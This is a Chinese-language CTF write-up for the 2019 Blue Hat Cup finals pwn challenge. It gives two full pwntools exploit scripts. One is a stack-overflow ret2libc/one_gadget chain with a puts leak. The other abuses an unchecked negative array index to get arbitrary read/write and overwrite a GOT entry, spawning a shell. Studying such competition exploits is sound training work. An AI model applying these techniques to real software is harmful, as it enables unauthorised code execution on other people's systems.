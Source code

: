 # 2019蓝帽杯决赛pwn
## Exploit 0x1 ：栈溢出  
自动攻打后提交flag的脚本这里就不挂啦  
  
这道题目明显就是三道毫不相关的题目拼起来的（学长陈述）  

第一个功能getname，明显的栈溢出，甚至还有格式化字符串。  
正常的利用当然是
* 泄露libc基址  
* puts(puts_addr)||格式化字符串
* ret2libc :
* system(/bin/sh)||one_gadget  
  
  
~~~python
from pwn import *
#from LibcSearcher import LibcSearcher
context.log_level='debug'

r = process('./lmb')
e = ELF('./lmb')
# gdb.attach(r,"b*0x00400E2c")
puts_plt = e.plt['puts']
puts_got = e.got['puts']
success(hex(puts_plt))
success(hex(puts_got))

pop_rdi = 0x401213
getname = 0x400DFD
onegadget = [0x45216,0x4526a,0xf02a4,0xf1147]
# gdb.attach(r,"b*0x400E9D")

payload = 'a' * 0x28 + p64(pop_rdi)+ p64(puts_got) + p64(puts_plt) + p64(getname)
# payload = payload.ljust(0x90, "0")

r.sendlineafter('choice:','1')
r.sendlineafter('your name','laichick')
r.recvuntil('keyword?')
r.sendline(payload)
r.recvuntil("fail\n")
puts_addr = u64(r.recv(6).ljust(8,'\x00'))
success("puts_addr   " + hex(puts_addr))

libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
libc_base = puts_addr - libc.symbols["puts"]
system_addr = libc_base + libc.symbols["system"]
binsh_addr = libc_base + next(libc.search("/bin/sh"))
onegadget_addr = libc_base + onegadget[3]
# libc = LibcSearcher('puts', puts_addr)
# libcbase = puts_addr - libc.dump('puts')
# system_addr = libcbase + libc.dump('system')
# binsh_addr = libcbase + libc.dump('str_bin_sh')
# r.sendlineafter('choice:','1')

# payload = 'a' * 0x28  + p64(pop_rdi) + p64(binsh_addr) + p64(system_addr)
payload = 'a' * 0x28 + p64(onegadget_addr)
# payload = payload.ljust(0x90,"\x00")
r.sendlineafter('your name','laichick')
r.recvuntil('keyword?')
r.sendline(payload)

r.interactive()
~~~

## Exploit 0x2 : 数组溢出  
* 在函数edit(),show()中没有对数组的下界做检查。  
* bss段上,name与结构体非常接近
* 伪造一个结构体，写入自己想要的地址，完成任意地址读写的功能。
* show()读出puts_addr
* edit()修改puts_addr为one_gadget地址
~~~python
from pwn import *
#from LibcSearcher import LibcSearcher
# context.log_level='debug'

r = process('./lmb')
e = ELF('./lmb')

onegad = [0x45216,0x4526a,0xf02a4,0xf1147]
puts_got = e.got['puts']
success(hex(puts_got))

def enter():
	r.sendlineafter("heap\nchoice:","3")
	r.recvuntil("name\n")
	name = p32(puts_got)+p32(0)+p32(100)+p32(1)
	r.sendline(name)

def add(size):
	r.sendline("1")
	r.recvuntil('size:')
	r.sendline(str(size))

def show(index):
	r.sendline('2')
	r.recvuntil('index:')
	r.sendline(str(index))


def edit(index,content):
	r.sendlineafter("choice","3")
	r.recvuntil('index:')
	r.sendline(str(index))
	r.recvuntil('content:')
	r.sendline(content)
# gdb.attach(r,"b*0x0400B49")

enter()
show(-6)
puts_addr = u64(r.recv(6).ljust(8,'\x00'))
log.info(hex(puts_addr))

libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
libc_base = puts_addr - libc.symbols["puts"]
onegad_addr = libc_base + onegad[0]

edit(-6,p64(onegad_addr))
r.interactive()
~~~